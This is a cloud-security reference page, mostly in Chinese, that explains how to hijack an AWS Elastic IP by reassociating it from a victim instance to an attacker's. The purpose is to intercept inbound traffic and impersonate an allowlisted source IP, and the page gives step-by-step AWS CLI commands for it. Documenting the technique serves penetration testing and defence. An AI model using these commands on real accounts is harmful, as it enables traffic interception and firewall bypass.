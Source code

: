 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## 摘要

滥用 `ec2:AssociateAddress`（可选地 `ec2:DisassociateAddress`）将 Elastic IP (EIP) 从受害者 instance/ENI 重新关联到攻击者的 instance/ENI。这样会将目标为该 EIP 的入站流量重定向到攻击者，并允许攻击者以列入白名单的公网 IP 发起出站流量，从而绕过外部合作方防火墙。

## 前提条件
- 目标 EIP allocation ID 位于相同的 account/VPC。
- 你控制的 attacker instance/ENI。
- 权限：
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` 在该 EIP allocation-id 和 attacker instance/ENI 上
- `ec2:DisassociateAddress`（可选）。注意：`--allow-reassociation` 会自动从之前的 attachment 解除关联。

## 攻击

变量
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) 分配或识别受害者的 EIP（实验室分配一个新的并将其附加到受害者）
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) 验证 EIP 当前解析到受害者服务（例如检查 banner）
```bash
curl -sS http://$EIP | grep -i victim
```
3) 将 EIP 重新关联到 attacker（会自动从 victim 取消关联）
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) 验证 EIP 现在解析到 attacker 服务
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
证据（关联已移动）：
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## 影响
- Inbound impersonation: 所有发往被劫持 EIP 的流量都会被交付到 attacker instance/ENI。
- Outbound impersonation: Attacker 可以发起看起来源自 allowlisted public IP 的流量（可用于绕过 partner/external source IP filters）。

{{#include ../../../../banners/hacktricks-training.md}}
